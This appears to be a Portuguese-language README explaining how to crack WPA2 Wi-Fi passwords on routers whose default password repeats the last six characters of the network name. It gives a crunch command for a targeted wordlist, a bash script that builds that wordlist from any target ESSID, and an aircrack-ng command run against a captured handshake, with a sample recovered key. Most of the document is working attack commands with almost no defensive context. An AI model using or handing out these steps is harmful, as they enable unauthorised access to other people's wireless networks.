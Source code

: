 ### Criação da wordlist para o padrão observado

 O comando que usamos para criar uma wordlist específica foi:

```bash
crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@PADRAO -o nomeWL
```
 Usamos o crunch para criar um arquivo em que cada palavra-chave possui tamanho único de 8 (mínimo e máximo), utilizando análise combinatória para uso de todo o alfabeto maiúsculo e números onde estão posicionados os arrobas `@@`, que indica ser apenas duas combinações de caracteres.

 Rede alvo com padrão vulnerável -> essid: `KLANU_2G1Z672U` -> os 6 últimos dígitos também são os últimos 6 da senha (de 8 dígitos) -> 5G672U
 > padrão de exemplo: KLANU_2G1Z672U:xx5G672U para descobrirmos o valor de `xx`

 `Exemplo: crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@5G672U -o wl`

> É possível reconhecer que é fácil de automatizar isso em shell script, né? bem fácil... tendo em vista que o código padrão q é usado no nome e na senha nunca será o mesmo da de outra rede, então precisamos fazer o script funcionar de acordo com o nome da rede fornecida.

#### Automatizando a criação da wordlist

 Fazendo a wordlist perfeita para as redes que seguem a mesma ideia.

 Queremos salvar a informação passada pelo usuário, que seria o nome da rede, e salvar os ultimos 6 dígitos em um arquivo para utilizarmos este conteúdo no crunch, que como vimos anteriormente, apenas precisa combinar dois caracteres aleatórios (compostos por letra maiúscula e/ou números) seguido do q foi gravado no arquivo. Assim, o script funciona para criar wordlist de qualquer rede que se encaixe nesse padrão frágil de acesso.

```sh
#!/bin/bash
read -p "Digite o nome da rede alvo (essid): " essid
echo $essid | cut -d "G" -f 2 > wifi.txt && crunch 8 8 ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890 -t @@$(cat wifi.txt) -o wl &>/dev/null && rm wifi.txt
sleep 0.35s
echo "Wordlist criada com sucesso!"
sleep 0.2s
echo "Arquivo salvo como wl"
```

 Ao abrir o script (`chmod +x < nome do script >` + `./< nome do script >`) e digitar o nome da rede alvo, ele te retornará o arquivo `wl` feito.
 Agora podemos passar para a real fase de exploração, uma vez que já temos uma wordlist pronta para o uso.

### Quebrando a senha da rede sem fio alvo

 Com tudo pronto podemos partir pro ataque com o aircrack.

```bash
sudo aircrack-ng -a2 -e < "ESSID_Rede" > < "NomeArquivoCap*" > -w < wordlist >
```
 Resultado de exemplo da rede KLANU_2G1Z672U -> Key Found! [325G672U]
    
> Não esquecer de dar o `airmon-ng stop wlp1s0mon` posteriormente, para ter acesso a internet.
